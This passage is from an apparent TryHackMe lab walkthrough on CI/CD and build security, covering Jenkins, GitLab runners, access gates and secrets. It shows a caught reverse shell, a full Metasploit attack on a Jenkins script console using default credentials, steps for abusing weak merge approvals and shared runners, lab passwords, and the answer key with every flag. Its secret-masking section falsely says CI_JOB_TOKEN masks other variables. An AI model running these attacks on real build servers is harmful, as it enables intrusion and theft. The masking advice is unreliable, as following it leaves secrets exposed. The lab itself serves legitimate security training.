Create the merge request, add a description, and click Create. If you completed all the steps in a couple of seconds, you should see a call be made to your web server to download the shell and, shortly after, a new shell connection on the terminal!

```shell title="Terminal"
root@AttackBox:~$ nc -lvp 8081
Listening on 0.0.0.0 8081
Connection received on jenkins.tryhackme.loc 55994
/bin/sh: 0: can't access tty; job control turned off
$ whoami
ubuntu
```

**Note: If you made a mistake somewhere in the process, you will have to submit a new merge request in order to get your shell. However, it has to be a completely brand new merge request in order for the webhook to trigger. As such, the easiest option is to completely remove your forked-repo and start again. To do this, navigate to your forked-repo, then go to Settings -> Advanced -> Delete Project. Once deleted, you can fork the repo again and start over.**

Protecting the build process

Protecting the build process is key to ensuring vulnerabilities are avoided at the start of the code lifecycle. An insecure build can enable living-off-the-land attacks, supply chain attacks and a lot of trouble that is difficult to detect later in the pipeline. Here are some best practices to follow, which knit together what has been discussed in the previous tasks:

1. **Isolation and Containerisation**: Run builds in isolated containers to prevent interference and maintain consistency.
2. **Least Privilege**: Grant minimal permissions to CI/CD tools, restricting unnecessary access to sensitive resources.
3. **Secret Management**: Use CI/CD tools' secret management features to store and inject sensitive data securely.
4. **Immutable Artifacts**: Store build artifacts in a secure registry to prevent tampering and enable easy auditing.
5. **Dependency Scanning**: Integrate dependency scanning to identify and address vulnerabilities in third-party libraries.
6. **Pipeline as Code**: Define CI/CD pipelines as code, version-controlled alongside the source code.
7. **Regular Updates**: Keep CI/CD tools and dependencies up to date to address known vulnerabilities.
8. **Logging and Monitoring**: Monitor build logs for unusual activities and integrate them with security monitoring systems.

:::info Answer the questions below

<details>

<summary> Where should you store artefacts to prevent tampering? </summary>

```plaintext
secure registry
```

</details>

<details>

<summary> What mechanism should you always use to store and inject sensitive data? </summary>

```plaintext
secret management
```

</details>

<details>

<summary> What attack can malicious actors perform to inject malicious code in the build process? </summary>

```plaintext
dependency confusion
```

</details>

<details>

<summary> Authenticate to Mother and follow the process to claim Flag 1. What is Flag 1? </summary>

```plaintext
THM{7753f7e9-6543-4914-90ad-7153609831c3}
```

</details>

:::

## Task 7 Securing the Build Server

Our build process has now been protected. The next point of attack is the build server itself! If an attacker can gain access or control of our build server, this places them in quite a privileged position to compromise both the pipeline and the build.

### Build Server Basics

Before diving into the attack, let's discuss basic build server security. The simplest point to start is with access. Even in modern times, a common attack against build infrastructure is to guess credentials and gain access. Whenever you see a Jenkins server out in the wild, you would be surprised how many times `jenkins:jenkins` would do the trick!

To secure our build server, we want to restrict access to it. You would often find that multiple members have access to the same build server. In these cases, we need to apply granular access to ensure that a compromise of one user would not lead to the compromise of all builds. Furthermore, we want to restrict the likelihood of a user being compromised by using multi-factor authentication.

### Exposed Build Server

Let's take a look at the Jenkins build server in the network at [http://jenkins.tryhackme.loc:8080/](http://jenkins.tryhackme.loc:8080/). You may have to first make another update to your `/etc/hosts` file with the IP of the machine shown in your network diagram. You should see the following screen:


Let's try our luck with `jenkins:jenkins` and we should be authenticated!


In this task, we will take a look at using some of the MSF modules to attack the Jenkins build server. On the AttackBox or your Kali VM, start Metasploit in the terminal using `msfconsole`. We will make use of the jenkins_script_console module from MSF:

```shell title="Terminal"
msf6 > use exploit/multi/http/jenkins_script_console
msf6 exploit(multi/http/jenkins_script_console) > show options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        The API token for the specified username
   PASSWORD                    no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit
                                         .html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0
                                       .0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows
```

Configure your module with the correct values and execute for a shell:

```shell title="Terminal"
msf6 exploit(multi/http/jenkins_script_console) > set target 1
target => 1
msf6 exploit(multi/http/jenkins_script_console) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/http/jenkins_script_console) > set password jenkins
password => jenkins
msf6 exploit(multi/http/jenkins_script_console) > set username jenkins
username => jenkins
msf6 exploit(multi/http/jenkins_script_console) > set RHOST jenkins.tryhackme.loc
RHOST => jenkins.tryhackme.loc
msf6 exploit(multi/http/jenkins_script_console) > set targeturi /
targeturi => /
msf6 exploit(multi/http/jenkins_script_console) > set rport 8080
rport => 8080
msf6 exploit(multi/http/jenkins_script_console) > run

[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: '887729f7a718bb81c8f00bff0df12b4bfb479ccd9cf91582f48107c457cb7d2e' (Jenkins-Crumb style v2)
[*] 52.50.36.84:8080 - Sending Linux stager...
[*] Command Stager progress - 100.00% done (751/751 bytes)
[*] Started bind TCP handler against 52.50.36.84:4444
[*] Sending stage (3045348 bytes) to 52.50.36.84
[*] Meterpreter session 1 opened (10.10.198.237:40199 -> 52.50.36.84:4444) at 2023-08-21 20:49:51 +0100

meterpreter > getuid
Server username: jenkins
```

You can also look to perform manual exploitation on the Jenkins server. This will involve accessing the script console and using a Groovy script to execute commands. Feel free to play around!

### Protecting the Build Server

The following steps can be followed to protect both your build server and build agents:

- **Build Agent Configuration**: Configure build agents to only communicate with the build server, avoiding external exposure.
- **Private Network**: Place build agents within a private network, preventing direct internet access.
- **Firewalls**: Employ firewalls to restrict incoming connections to necessary Build server-related traffic.
- **VPN**: Use a VPN to access the build server and its agents securely from remote locations.
- **Token-Based Authentication**: Utilise build agent tokens for authentication, adding an extra layer of security.
- **SSH Keys**: For SSH-based build agents, use secure SSH keys for authentication.
- **Continuous Monitoring**: Regularly monitor build agent activities and logs for unusual behaviour.
- **Regular Updates**: Update both the build server and agents with security patches.
- **Security Audits**: Conduct periodic security audits to identify and address vulnerabilities.
- **Remove Defaults and Harden Configuration**: Make sure to harden your build server and remove all default credentials and weak configurations.

:::info Answer the questions below

<details>

<summary> What can be used to ensure that remote access to the build server can be performed securely? </summary>

```plaintext
VPN
```

</details>

<details>

<summary> What can be used to add an additional layer of authentication security for build agents? </summary>

```plaintext
Token-Based Authentication
```

</details>

<details>

<summary> Authenticate to Mother and follow the process to claim Flag 2. What is Flag 2? </summary>

```plaintext
THM{1769f776-e03c-40b6-b2eb-b298297c15cc}
```

</details>

:::

## Task 8 Securing the Build Pipeline

With our build server secure, we will take a look at the pipeline itself next! Even if we do everything correctly, we still have to consider that one of our developers may be compromised. Whether the actual developer is compromised through a social engineering attack or simply their credentials being exposed, this compromise could be the downfall of our pipeline and build. Fortunately, there are protections that can be applied!

### Access Gates

Access gates, also known as gates or checkpoints, serve as "stages" within a software development pipeline. They ensure that code progresses through the pipeline only after meeting predefined quality and security criteria. Access gates are crucial in enhancing the development process's control, quality assurance, and security. It's beneficial for everyone.

1. **Enhanced Control**: Access gates provide checkpoints in the pipeline, allowing controlled progression to different stages.
2. **Quality Control**: Gates ensures that code meets predefined quality standards before advancing.
3. **Security Checks**: Gates enables security assessments, such as vulnerability scans, before deployment.

**Implementation Steps**:

1. **Manual Approvals**: Require manual approval before moving to the next stage, ensuring thorough reviews.
2. **Automated Tests**: Set up automated testing gates for code quality, unit tests, integration tests, etc.
3. **Security Scans**: Integrate security scanning tools to detect vulnerabilities in the codebase.
4. **Release Gates**: Use gates to verify proper documentation, versioning, and compliance.
5. **Environment Validation**: Validate the target environment's readiness before deployment.
6. **Rollback Plan**: Include a gate for a well-defined rollback plan in case of issues post-deployment.
7. **Monitoring**: Implement monitoring gates to assess post-deployment performance.
8. **Parallel Gates**: Run gates in parallel to expedite the pipeline without compromising quality.
9. **Auditing**: Regularly review gate configurations and results to ensure effectiveness.

### The Two-Person Concept

Even if we have access gates, we need to ensure that no single user can pass these access gates. If you are the developer who initiated the build, you should be prevented from passing the next access gate. This should always be someone else. By enforcing this with a technical control, it can be assured that in the event that a developer is compromised, a build cannot be pushed through. This is referred to as the two-person rule.

Some build servers may not allow you to ensure a control on the access gate to ensure that it is a different person. A good workaround in these cases is to simply increase the count of approvals needed from 1 to 2. This way, the developer provides one approval, but a secondary person has to provide the other.

### Exploiting Misconfigured Access Gates

Let's take a look at an example where access gates have been misconfigured. In this example, we will provide you with access as the Ana user. You will use this user for all exercises going forward. You can use the following details to authenticate to Gitlab as Ana:

|   Key    |   Value    |
| :------: | :--------: |
| Username | anatacker  |
| Password | Password1@ |

Ash has provided Ana with developer access to his Approval-Test repo, which can be found here: [http://gitlab.tryhackme.loc/ash/approval-test](http://gitlab.tryhackme.loc/ash/approval-test). To protect the main branch of the repo, Ash has configured the main branch to be a protected branch, where developers are only allowed to make merge requests and no direct code changes. Let's test this by updating the README file and trying to commit the change to the main branch. Navigate to the README file and click Edit:


As you can see, Gitlab is automatically requesting that we start a merge request with the changes we want to make. You will also see that we cannot unselect the option to commit directly. Make a small change to the file and click Commit changes:


Immediately, you will see that we have to make a merge request for our change. Add a description and create the merge request. Ash's thought process behind this was that it would protect the main branch, as the company has a policy that states merge requests must be approved by a manager. Since we are now forced to make a merge request, the main branch is protected. However, Ash has made the following two errors in his security thought process:

- Policies that are not enforced through a technology will not be respected by attackers. Sure, the policy says that a manager must approve the merge request, but if you read the merge request, you will see that from a technical standpoint, Gitlab indicates that approval is optional.
- Although the main branch is protected by not allowing any direct pushes, since developers can still make merge requests, they can simply push their own merge request to commit code to the main branch. The two-person principle was not implemented to ensure that another person has to accept the merge request.

Leveraging these mistakes, as an attacker, you can simply approve your own merge request (though it isn't even needed) and you can then merge it to the main branch, as shown below!


Reviewing the code in the main branch, you have made a change to the main branch! Now comes the fun part. The GitLab runner was configured to only run on the main branch. Since we can now push code to the main branch, we can compromise the runner. Now that you know how to get your code to the main branch, make some changes to the .gitlab-ci.yml file to get code execution on the runner. You can use any of the techniques you have been taught up to this point!

### Protecting the Pipeline

Protecting your GitLab CI/CD pipeline is essential to ensure the security of your code and infrastructure. Here are steps you can take to protect your pipeline with access gates and prevent unauthorised code execution like the example above:

#### Limit Branch Access

Restrict who can push to the main branch. Only trusted developers should have the ability to push code to this branch. You can do this by configuring branch protection rules in your GitLab repository settings. Navigate to Settings > Repository > Default branch. Configure the rules to require reviews before allowing changes.


#### Review Merge Requests

Enforce merge requests (or pull requests) to make main branch changes. Merge requests provide a way to review and approve code changes before merging. You can configure a merge request approvals to ensure multiple team members review and approve changes.

#### Use CI/CD Variables

Avoid storing sensitive information directly in your .gitlab-ci.yml file. Instead, use GitLab CI/CD variables to store secrets like API keys, passwords, and tokens. These variables can be protected and restricted to specific branches and tags.

#### Limit Runner Access

Only allow trusted runners to execute CI/CD jobs. By specifying tags, you can register runners with specific tags and then restrict which runners can be used for jobs in your .gitlab-ci.yml file. Only runners with the appropriate tags can run jobs on the main branch.

#### Access Control and Permissions

Review and configure project-level and group-level access controls and permissions. It's always good to review and ensure you have the least privilege by checking the project's settings and modifying the CI/CD configuration if necessary.

#### Regular Audits

Conduct regular security audits of your GitLab configuration and CI/CD pipeline. Review who has access and permissions and ensure that best practices are followed.

#### Monitor and Alert

Set up monitoring and alerting for your pipeline. Implement security monitoring solutions to detect unusual or unauthorised activities in your GitLab environment and CI/CD pipeline.

:::info Answer the questions below

<details>

<summary> What can we add so that merges are raised for review instead of pushing the changes to code directly? </summary>

```plaintext
merge requests
```

</details>

<details>

<summary> What should we do so that only trusted runners execute CI/CD jobs? </summary>

```plaintext
limit runner access
```

</details>

<details>

<summary> Authenticate to Mother and follow the process to claim Flag 3. What is Flag 3? </summary>

```plaintext
THM{2411b26f-b213-462e-b94c-39d974e503e6}
```

</details>

:::

## Task 9 Securing the Build Environment

Our pipeline is secure; we are almost there! Two more steps to go! Next on the list is making sure that our environments are secure. The last point where a threat actor may attempt to compromise our build is at the point where we deploy the build to its environment.

### Environment Segregation

A key security principle in our pipeline is to ensure that our different environments are segregated. Environments are not created equal, especially in these modern times where Agile principles are used. Developers are often provided with quite a lot of access and abilities in environments other than production (PROD) and  pre-production (PREPROD). If you need a refresher on the different types of environments, take a look at this room. With these additional permissions, we need to make sure that there is adequate segregation between the various environments.

At first glance, you may think that this is a simple endeavour. All we need to do is to ensure that developers do not have access to these sensitive environments. However, with the introduction of pipelines, this becomes a tad bit more complex. Even if we restrict direct access to these environments, there may be side channels in the pipeline that can be exploited. In this task, we will take a look at one common misconfiguration when the build agents themselves are not segregated.

### One Build Agent to Rule Them All

In our next example, Ash has learnt from his mistakes and made sure only to provide Ana with access to the development (DEV) branch. Main is now fully restricted. We still have access to the DEV branch since Ash wants his developers to adopt an Agile development process. Luckily for us, the DEV branch does have a Gitlab runner attached to it. Navigate to the new repo at [http://gitlab.tryhackme.loc/ash/environments/](http://gitlab.tryhackme.loc/ash/environments/) to get started. Navigate to the Operate->Environment section to view the two environments:


Let's take a closer look at the last build that was performed for production. Click on the build and select the Pipeline tab to see the build that was executed for production:


Investigate the pipeline and look at one of the jobs executed for the main pipeline. By clicking on a job that has the main tag, pay attention to the runner specified in the top right corner:


As we can see, runner number 6 was used for the build. Following the steps from the previous task, in the DEV branch, make a small change to the README file and observe which runner is being used for the job.

Interesting! It seems that Ash is trying to save some budget by having a single runner for the project. Responsible for DEV and PROD builds. Therefore, if we compromise the runner through our DEV access, we can intercept a production build! Leverage one of the previous techniques to compromise the build agent and read some sensitive information from the runner! Once you have compromised the runner, you can access both DEV and PROD!

### Protecting the Build Environment

Protecting your build environment is crucial to prevent compromising your production pipeline through a single runner shared between DEV and PROD. Here are some steps you can take to enhance security:

#### Isolate Environments

Separate your DEV and PROD pipelines as much as possible. Use separate runners or runner tags for DEV and PROD builds. Ensuring that any compromise in the DEV environment does not directly impact PROD. This way, you can't compromise PROD in the way shown in this task.

#### Restricted Access for CI/CD Jobs

Limit access to the runner host. Only authorised personnel should have access to the machine(s) running the GitLab Runner. Implement strong access controls and monitor for unauthorised access. GitLab provides a "Protected CI/CD environments" feature that allows you to define access controls for environments, restricting who can deploy to them. Permission features limit and assigns who can modify CI/CD configuration, including the .gitlab-ci.yml file.

#### Monitoring and Alerting

Implement monitoring and alerting for your CI/CD pipeline and runner. Set up alerts for suspicious activity or failed builds, which could indicate a compromise. Review and audit access permissions periodically, especially for environments and CI/CD configurations. Revoke access for users or roles that no longer require it.

:::info Answer the questions below

<details>

<summary> What should you do so that a compromised environment doesn't affect other environments? </summary>

```plaintext
isolate environments
```

</details>

<details>

<summary> Authenticate to Mother and follow the process to claim Flag 4 from the DEV environment. What is Flag 4? </summary>

```plaintext
THM{28f36e4a-7c35-4e4d-bede-be698ddf0883}
```

</details>

<details>

<summary> Authenticate to Mother and follow the process to claim Flag 5 from the PROD environment. What is Flag 5? </summary>

```plaintext
THM{e9f99dbe-6bae-4849-adf7-18a449c93fe6}
```

</details>

:::

## Task 10 Securing the Build Secrets

We can see the finish line in front of us! Our pipeline and build are almost secure! One final step remains: making sure that our build secrets are adequately protected!

### One Secret to Rule Them All

Larry has now finally learnt his lesson and made sure to implement segregated runners for the different environments. But there is one more issue. While these pipelines may be segregated, we need to make sure that the secrets (or variables as they are known in Gitlab) are also segregated. If the scope for secrets is not narrowly defined, we can request the use of PROD secrets in our DEV build, allowing us to compromise the production environment one last time! Navigate to the last repo we used for this exploit: [http://gitlab.tryhackme.loc/ash/environments](http://gitlab.tryhackme.loc/ash/environments).

Let's take a look at the environments and the latest builds for them, as we have done in the previous task. Taking a look at one of the production deployments, we can see that the build is making use of an API_KEY variable:


As Ana, we don't have the permissions required to list the different variables, but taking a look at the DEV branch's CI file, we can see that our DEV variable is different:


In our case, the value is API_KEY_DEV. Let's make a change to this variable and also echo out the value to see if we can access the PROD variable. Make the change to the CI file in the DEV branch and see what happens!

### Protecting the Build Secrets

Protecting build secrets, even when using GitLab CI/CD variables, is crucial for maintaining the security of your pipelines. GitLab CI/CD provides a feature called "masked variables" to help prevent secrets from being exposed in logs. Here's how you can use this feature:

#### Masking Variables

You can mask variables in your .gitlab-ci.yml file by using the CI_JOB_TOKEN predefined variable. This token is automatically set by GitLab and can be used to mask any variable value you want to keep hidden.

For example, if you have a variable named MY_SECRET_KEY, you can use it like this:

```yml
my_job:
  script:
    - echo "$MY_SECRET_KEY" # This will expose the secret
    - echo "masked: $CI_JOB_TOKEN" # This will mask the secret
```

#### Use Secure Variables

If you want to store secrets securely in GitLab, you can use GitLab CI/CD variables with the "Masked" option enabled. These variables are stored securely and are never exposed in job logs, even if you use them directly in your scripts. To create a secure variable:

- Go to the GitLab project.
- Navigate to Settings > CI/CD > Variables.
- Add a new variable, select the "Masked" checkbox, and provide the value.
- Once you've added a secure variable, you can use it in your .gitlab-ci.yml file without worrying about it being exposed in logs.

Note: Ensure that your job scripts do not inadvertently echo or print sensitive information, even when using masked variables. Double-check your scripts to avoid unintentional exposure of secrets.

#### Access Control

Limit access to CI/CD variables and logs. Only authorized can view job logs and variables in GitLab. You can configure project-level and group-level access controls to achieve this.

:::info Answer the questions below

<details>

<summary> Is using environment variables enough to protect the build secrets? (yay or nay) </summary>

```plaintext
nay
```

</details>

<details>

<summary> What is the value of the PROD API_KEY? </summary>

```plaintext
THM{Secrets.are.meant.to.be.kept.Secret}
```

</details>

:::

## Task 11 Conclusion

Based on the attacks and misconfigurations we saw in the previous tasks, we can understand that:

1. Pipeline Security is a Priority: Ensuring the security of your CI/CD pipeline is crucial for safeguarding code and data integrity.
2. Access Controls are Fundamental: Restricting access to critical branches, environments, and CI/CD variables is the first line of defence against unauthorised changes and data exposure.
3. Runner Security is Essential: Properly securing the machines running your GitLab Runner, along with strong authentication, is a must to prevent breaches.
4. Secrets Management Matters: Safeguarding sensitive data, such as API keys and passwords, through GitLab CI/CD variables with masking and secure variables is vital. Using environment variables is not enough.
5. Isolate Environments: Separating development (DEV) and production (PROD) environments minimises the risk of compromising the latter through the former.
6. Continuous Vigilance: Regularly reviewing access permissions, scripts, and security configurations, combined with monitoring and alerting, ensures ongoing security.
7. Education is Key: Educating your team about security best practices is essential to maintaining a robust security posture.

:::info Answer the questions below

<details>

<summary> I understand CI/CD and Build Security! </summary>

```plaintext
No answer needed
```

</details>

:::
